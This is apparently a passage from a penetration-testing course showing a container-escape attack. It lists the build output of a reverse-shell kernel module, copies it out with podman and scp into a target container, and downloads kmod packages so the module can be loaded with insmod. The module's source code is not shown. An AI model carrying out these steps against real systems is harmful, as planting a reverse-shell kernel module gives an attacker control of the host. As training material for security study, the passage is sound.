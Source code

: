```
-rw-r--r--. 1 root root    0 Oct 20 21:50 Module.symvers
-rw-r--r--. 1 root root   22 Oct 20 21:50 modules.order
-rw-r--r--. 1 root root  715 Oct 20 21:49 reverse-shell.c
-rw-r--r--. 1 root root 147K Oct 20 21:50 reverse-shell.ko
-rw-r--r--. 1 root root   22 Oct 20 21:50 reverse-shell.mod
-rw-r--r--. 1 root root  826 Oct 20 21:50 reverse-shell.mod.c
-rw-r--r--. 1 root root 131K Oct 20 21:50 reverse-shell.mod.o
-rw-r--r--. 1 root root  17K Oct 20 21:50 reverse-shell.o
```

> Listing 31 - Compiling the Kernel Module

At this point, we have compiled the module and can find the **reverse-shell.ko** file in the folder. Next, we'll need to transfer this file into our target container. To do this, we'll use **podman cp** in a new terminal window to transfer the file out of the compiler container and **scp** to transfer it to the target container.

With the **podman** command, we need to specify the name of the container, **compiler**, and the file **/exp/reverse-shell.ko** (separated by a colon). We'll also specify that we want to save it in our current directory with **./**. Once it's out of the container, we'll transfer the file to the **/root** directory of the target with **scp**.

```
kali@kali:~$ podman cp compiler:/exp/reverse-shell.ko ./ 

kali@kali:~$  scp -P 2222 reverse-shell.ko root@sandbox:/root/ 
root@sandbox's password:
reverse-shell.ko               100%  146KB  68.2MB/s   00:00
```

> Listing 32 - Transfering Reverse Shell

Next, we need to actually insert the module into the kernel. To do this, our target OS must have the appropriate binaries and libraries. We'll use **insmod** to insert the module binary, which comes with the _kmod_ package. However, kmod also requires the _xz-libs_ and _zstd-libs_ packages.

To get these on our target, we'll start an Alpine container with the same version of the target OS (3.16.2). We'll then use the Alpine package manager, _apk_, to download the packages locally.

Let's use the same command we used to start the compiler container. But this time, we'll use **alpine:3.16.2** as the image, name the container **kmod**, and execute **/bin/ash** instead of **/bin/bash** since Alpine Linux uses ash instead of bash for the shell.

Once the container starts, we'll run **apk update** to update the _indexes_. Then, we'll use **apk fetch** with the list of packages to download the three "apk" packages.

```
kali@kali:~$  podman container run -it --rm --hostname kmod --name kmod alpine:3.16.2 /bin/ash
/ # apk update
fetch https://dl-cdn.alpinelinux.org/alpine/v3.16/main/aarch64/APKINDEX.tar.gz
fetch https://dl-cdn.alpinelinux.org/alpine/v3.16/community/aarch64/APKINDEX.tar.gz
v3.16.2-334-gfa0f6c3878 [https://dl-cdn.alpinelinux.org/alpine/v3.16/main]
v3.16.2-335-ge36aa4fb66 [https://dl-cdn.alpinelinux.org/alpine/v3.16/community]
OK: 16894 distinct packages available
/ # apk fetch kmod xz-libs zstd-libs
Downloading zstd-libs-1.5.2-r1
Downloading kmod-29-r2
Downloading xz-libs-5.2.5-r1
/ # ls -alh *.apk
-rw-r--r--    1 root     root       65.4K Apr 18  2022 kmod-29-r2.apk
-rw-r--r--    1 root     root       71.4K Apr 18  2022 xz-libs-5.2.5-r1.apk
-rw-r--r--    1 root     root      202.0K Apr 18  2022 zstd-libs-1.5.2-r1.apk
/ #
```
